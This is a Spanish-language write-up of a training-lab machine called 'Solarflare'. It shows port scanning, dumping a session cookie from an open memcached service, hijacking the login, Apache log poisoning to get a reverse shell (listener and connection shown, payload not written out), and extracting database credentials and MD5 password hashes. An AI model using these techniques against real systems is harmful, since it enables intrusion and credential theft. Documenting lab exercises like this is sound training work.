




# Resolución maquina solarflare

**Autor:** PepeMaquina  
**Fecha:** 12 de noviembre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** memcache, cookie, log poison.

---
## Imagen de la Máquina

*Imagen: Solarflare.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 172.20.9.122 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p80,3306,11211 172.20.9.122 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT      STATE SERVICE   VERSION
80/tcp    open  http      Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Login
3306/tcp  open  mysql     MariaDB 5.5.5-10.5.21
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.5.21-MariaDB-0+deb11u1
|   Thread ID: 32
|   Capabilities flags: 63486
|   Some Capabilities: LongColumnFlag, Support41Auth, FoundRows, SupportsLoadDataLocal, ODBCClient, InteractiveClient, SupportsTransactions, SupportsCompression, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, IgnoreSigpipes, Speaks41ProtocolNew, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: *s(j`"&7#I()7tf#wQlM
|_  Auth Plugin Name: mysql_native_password
11211/tcp open  memcached Memcached 1.6.9 (uptime 170 seconds)
~~~
A primera vista noto algo que llama mi atención, el puerto 11211 esta abierto, cosa que nunca antes habia visto, pero siempre es buena forma de conocer mas servicios.
### Enumeración de la página web
Algo bueno de la maquina, es que otorga directamente el dominio del servidor junto con su ip, cosa de que y no se deba adivinar el dominio o averiguar un sudominio por fuerza bruta o ataques de transferencia de zonas.
~~~bash
cat /etc/hosts
127.0.0.1 localhost
........
172.20.9.122 reports.solarflare.hv solarflare.hv
~~~
Gracias a ello procedo a inspeccionar la página web.

Esto se ve básicamente como un inicio de sesión, intente realizar un sqli pero no surgio efecto alguno, asi que procedi a realizar enumeración de subdirectorios (en este tipo de maquinas no utilizo la recursividad porque suelen romperse).
~~~bash
dirsearch -u http://reports.solarflare.hv/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/hackviser/HackTrace/nmap/reports/http_reports.solarflare.hv/__25-11-12_15-36-30.txt

Target: http://reports.solarflare.hv/

[15:36:30] Starting: 
[15:36:44] 403 -  286B  - /.ht_wsr.txt                                      
[15:36:45] 403 -  286B  - /.htaccess.bak1                                   
[15:36:45] 403 -  286B  - /.htaccess.orig                                   
[15:36:45] 403 -  286B  - /.htaccess.sample
[15:36:45] 403 -  286B  - /.htaccess.save                                   
[15:36:45] 403 -  286B  - /.htaccess_extra
[15:36:45] 403 -  286B  - /.htaccess_sc
[15:36:45] 403 -  286B  - /.htaccessBAK
[15:36:45] 403 -  286B  - /.htaccess_orig
[15:36:45] 403 -  286B  - /.htaccessOLD
[15:36:45] 403 -  286B  - /.htaccessOLD2
[15:36:45] 403 -  286B  - /.html                                            
[15:36:45] 403 -  286B  - /.htm
[15:36:45] 403 -  286B  - /.htpasswd_test                                   
[15:36:45] 403 -  286B  - /.htpasswds
[15:36:45] 403 -  286B  - /.httr-oauth
[15:36:49] 403 -  286B  - /.php                                             
[15:37:33] 301 -  331B  - /assets  ->  http://reports.solarflare.hv/assets/ 
[15:37:33] 200 -  460B  - /assets/                                          
[15:37:51] 302 -    0B  - /dashboard.php  ->  /index.php                    
[15:37:55] 301 -  329B  - /dist  ->  http://reports.solarflare.hv/dist/     
[15:37:55] 200 -  456B  - /dist/
[15:38:53] 403 -  286B  - /server-status                                    
[15:38:53] 403 -  286B  - /server-status/
~~~
Al realizar enumeración de subdirectorios se puede ver un "dashboard.php" que se ve importante ya que probablemente tenga algo de informacion o algun tipo de vulnerarla, pero siempre redirecciona al index que es el inicio de sesión (intente un cambio de metodo a la solicitud pero no funciono).
Asi que sin un lugar claro de donde escalar, me paso al siguiente servicio, en este caso es mysql pero no se puede hacer mucho sin credenciales.

### Robo de cookie
Pasando al otro servicio se tiene "memcached", algo que nunca vi, pero al buscar en internet, se pudo encontrar una metodologia para auditar dicho servicio (https://www.hackingarticles.in/penetration-testing-on-memcached-server/).
Lo primero fue contectarse con telnet.
~~~bash
telnet 172.20.9.122 11211
Trying 172.20.9.122...
Connected to 172.20.9.122.
Escape character is '^]'.
version
VERSION 1.6.9
~~~
Siguiendo la guia, se deberia ver los "stats" pero al parecer obtener acceso a datos almacenados es con el comando "stats items"
~~~bash
stats items
STAT items:4:number 1
STAT items:4:number_hot 0
STAT items:4:number_warm 0
STAT items:4:number_cold 1
STAT items:4:age_hot 0
STAT items:4:age_warm 0
STAT items:4:age 2540
STAT items:4:mem_requested 175
STAT items:4:evicted 0
STAT items:4:evicted_nonzero 0
STAT items:4:evicted_time 0
STAT items:4:outofmemory 0
STAT items:4:tailrepairs 0
STAT items:4:reclaimed 0
STAT items:4:expired_unfetched 0
STAT items:4:evicted_unfetched 0
STAT items:4:evicted_active 0
STAT items:4:crawler_reclaimed 0
STAT items:4:crawler_items_checked 8
STAT items:4:lrutail_reflocked 0
STAT items:4:moves_to_cold 1
STAT items:4:moves_to_warm 0
STAT items:4:moves_within_lru 0
STAT items:4:direct_reclaims 0
STAT items:4:hits_to_hot 0
STAT items:4:hits_to_warm 0
STAT items:4:hits_to_cold 0
STAT items:4:hits_to_temp 0
~~~
Al parecer existe un item con el ID 4, asi que se procede a ver lo que lleva almacenado.
~~~bash
stats cachedump 4 1
ITEM session_key:a4ea55d5e8e7d9871b0f47e8641024a86ed11f63d06ca7793d5af122110b [44 b; 0 s]
END
~~~
Esto parece ser una cookie de sesion, pero como la pregunta del laboratorio nos proporciona un id de usuario, obtengo los datos con "get".
~~~bash
get session_key:a4ea55d5e8e7d9871b0f47e8641024a86ed11f63d06ca7793d5af122110b
VALUE session_key:a4ea55d5e8e7d9871b0f47e8641024a86ed11f63d06ca7793d5af122110b 0 44
user_id:dc1<SNIP>3f7
END
~~~
Con esto se puede responder la primera pregunta.
Ahora si se puede probar colocando la cookie al inicio de sesión.

Y al recargar la página se logra acceder al dashboard.php que vimos al principio.

### Log Poison
Ahora revisando el contenido de la página, solamente tiene una pestaña de "logs", al ispeccionar esto parece mostrar el contenido de los logs guardados del servicio de apache de "/var/log/apache2/access.log", asi que como esta dentro de una pagina "logs.php", puedo pensar que interpreta php.

Existe un ataque muy conocido como "logs poison", esto normalmente va de la mano de un LFI, pero puede aplicar en este caso, la idea es realizar una solicitud al servidor pero modificar el "user-agent" con un codigo malicioso y al recargar la pagina deberia ejecutarse.
Para probar esto, primero abro burp suite e intercepto la solicitud, con esto modifico el "user-agent" enviandome una reverse shell.

Ahora primero abro un escucha en mi maquina atacante.
~~~bash
sudo nc -nlvp 4433                                                             
[sudo] password for kali: 
listening on [any] 4433 ...
~~~
Ahora recargando la pagina en teoria deberia de obtener una sesion como el que hostea la maquina.
~~~bash
connect to [10.8.13.128] from (UNKNOWN) [172.20.9.122] 51482
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
~~~
Y si, efectivamente si funciono, obtengo una shell como el usuario "www-data".

### Secuestro de hashes de la base de datos
Ahora segun el ejercicio, se debe obtener el hash de un usuario, asi que inspeccionando el contenido del servidor, se puede ver credenciales en el archivo index.php.
~~~bash
www-data@debian:/var/www/html$ cat index.php 
<?php

$memcached = new Memcached();
$memcached->addServer("127.0.0.1", 11211);

$session_key_cookie=$_COOKIE['session_key'];

if (isset($_COOKIE['session_key']) && $memcached->get("session_key:".$session_key_cookie)) {
    header('Location: /dashboard.php');
    exit();
}

$message = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $db = new PDO('mysql:host=localhost;dbname=solarflare', 'root', 'h5D<SNIP>Rd4');
    $statement = $db->prepare("SELECT * FROM users WHERE email = :email");
    $statement->execute(['email' => $_POST['email']]);
    $user = $statement->fetch(PDO::FETCH_ASSOC);

    if ($user && md5($_POST['password']) === $user['password']) {
        $sessionKey = bin2hex(random_bytes(30));
        setcookie('session_key', $sessionKey,0);
        $memcached->set("session_key:".$sessionKey, $user['id'], 0); 
        header('Location: /dashboard.php');
        exit();
    } else {
        $message = 'Email or password incorrect!';
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
..............................
<SNIP>
..............................
~~~
Se puede ver que realiza la conexión a una base de datos, entonces utilizando estas credenciales, intento iniciar sesion a mysql y poder robar los hash que encuentre.
~~~bash
www-data@debian:/var/www/html$ mysql -u root --password=h5<SNIP>d4
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 73
Server version: 10.5.21-MariaDB-0+deb11u1 Debian 11

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| solarflare         |
+--------------------+
4 rows in set (0.001 sec)

MariaDB [(none)]> use solarflare
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [solarflare]> show tables;
+----------------------+
| Tables_in_solarflare |
+----------------------+
| users                |
+----------------------+
1 row in set (0.000 sec)

MariaDB [solarflare]> select * from users
    -> ;
+--------------------------------------+------------------------------+----------------------------------+------------+-----------+----------+
| id                                   | email                        | password                         | first_name | last_name | is_admin |
+--------------------------------------+------------------------------+----------------------------------+------------+-----------+----------+
| 4803d089-7a93-4fed-ab6b-f80f2356c366 | calum.walton@solarflare.hv   | 972482b7386ae4cfaf9249c0a806d9eb | Calum      | Walton    |        1 |
| 556641c9-a578-4023-9fa8-eab8cf811f0c | gracie.coleman@solarflare.hv | 8a39b5d418ccb7df63bb200437735a21 | Gracie     | Coleman   |        1 |
| 643ee7cc-c60e-4d2f-a227-975732fcadc6 | andrew.walls@solarflare.hv   | 3aa7b1e60eb0db205ec167a43d5bdea3 | Andrew     | Walls     |        1 |
| dc1cfc1e-cbc7-46d1-b88d-f8dd0ab163f7 | bella.leach@solarflare.hv    | e7d<SNIP>590 | Bella      | Leach     |        1 |
| dc213e54-fa3c-4a74-b04b-889b57914dde | jane.flynn@solarflare.hv     | 8fa80d03952b124e1869036174e6dd0c | Jane       | Flynn     |        1 |
+--------------------------------------+------------------------------+----------------------------------+------------+-----------+----------+
5 rows in set (0.000 sec)
~~~
De esta forma se obtiene el hash del usuario que se pide la plataforma.
Por fin, laboratorio completado.
